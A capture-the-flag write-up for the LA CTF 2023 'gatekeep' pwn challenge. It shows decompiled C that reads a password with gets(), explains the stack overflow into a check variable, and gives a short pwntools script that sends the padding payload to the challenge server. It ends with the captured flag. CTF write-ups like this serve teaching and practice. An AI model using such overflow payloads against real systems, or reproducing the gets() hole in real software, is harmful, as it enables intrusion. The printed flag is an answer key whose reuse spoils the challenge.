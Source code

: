 # gatekeep

[Problem](https://github.com/uclaacm/lactf-archive/tree/master/2023/pwn/gatekeep)

The main function is just calling "check", so I'll just show the function "check".

```c
int check()
{
  int result; // eax
  char buf[10]; // [rsp+7h] [rbp-29h] BYREF
  char s1[15]; // [rsp+11h] [rbp-1Fh] BYREF
  ssize_t v3; // [rsp+20h] [rbp-10h]
  int fd; // [rsp+28h] [rbp-8h]
  int v5; // [rsp+2Ch] [rbp-4h]

  v5 = 0;
  fd = open("/dev/urandom", 0);
  if ( fd < 0 )
  {
    puts("Can't access /dev/urandom.");
    exit(1);
  }
  v3 = read(fd, buf, 10uLL);
  if ( v3 < 0 )
  {
    puts("Data not received from /dev/urandom");
    exit(1);
  }
  close(fd);
  puts("Password:");
  gets(s1);
  result = strcmp(s1, buf);
  if ( result )
    result = puts("I swore that was the right password ...");
  else
    v5 = 1;
  if ( v5 )
  {
    puts("Guess I couldn't gaslight you!");
    result = print_flag();
  }
  return result;
}
```

I guess there's nothing much to say, it uses "gets". I was trying to overflow the bytes from "s1" to "buf", so thay can be the same. Well, I was thinking too complicated. We can just simply overflow the bytes to v5, then we can enter the if statement.

There's one more thing. If we check the stack of function "check", we will find that "s1" is below "buf", so it can't overflow to it. Since the stack extends from high address to low address, we can only overflow from buf with higher address to buf with lower address.

```python
from pwn import *
p=remote("lac.tf",31121)
payload=b'a'*0x1f
p.sendlineafter("Password:",payload)
print(p.recvall(timeout=0.5))
```

## Flag
> lactf{sCr3am1nG_cRy1Ng_tHr0w1ng_uP}